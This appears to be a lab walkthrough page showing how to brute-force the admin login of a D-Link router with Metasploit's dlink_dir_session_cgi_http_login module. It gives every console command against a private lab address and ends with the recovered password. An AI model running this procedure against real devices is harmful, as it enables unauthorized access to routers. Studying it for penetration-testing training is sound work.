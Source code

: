 +++
title = "Brute Force Login"
date = 2021-10-18T20:39:54-06:00
weight = 2
+++


We can see if the login has been configured with weak credentials by using a brute force attack with a password list. There are several tools to do this. We will use a Metasploit.

## Metasploit

Metasploit is an exploitation framework that will allow us to select a target and run different modules. We will use a module created to automate login attempts against some dlink routers.

In a terminal, open up Metasploit. This will take a few seconds to boot up.

```bash
msf
```
You will eventually get a console session.

![images/msfconsole.png](/static/msfconsole.png)

Search for a `dlink` module thats an `auxiliary` type.
```
search dlink type:auxiliary
```
We get several results back.

![images/msf_search_dlink_results.png](/static/msf_search_dlink_results.png)

We will be using the `dlink_dir_session_cgi_http_login` module.

```
use scanner/http/dlink_dir_session_cgi_http_login
```
Each module has several fields that need to be set to run it. You can these fields by running `show options`.
```
show options
```
![images/dir815-show-options.png](/static/dir815-show-options.png)

Set the remote target IP.
```
set RHOSTS 172.21.0.23
```
Set the remote port
```
set RPORT 8080
```
Change the username to `Admin`.
```
set USERNAME Admin
```
Lastly, tell the module to stop once it finds a password
```
set STOP_ON_SUCCESS true
```

Now if we run `show options` again, we should see our fields updated.
```
show options
```
![images/dir815-options-set.png](/static/dir815-options-set.png)

Run the module
``
run
``

![images/dir815-run.png](/static/dir815-run.png)

The module should continue to try passwords until it finds the correct one.

Creds: `Admin`:`letmein`
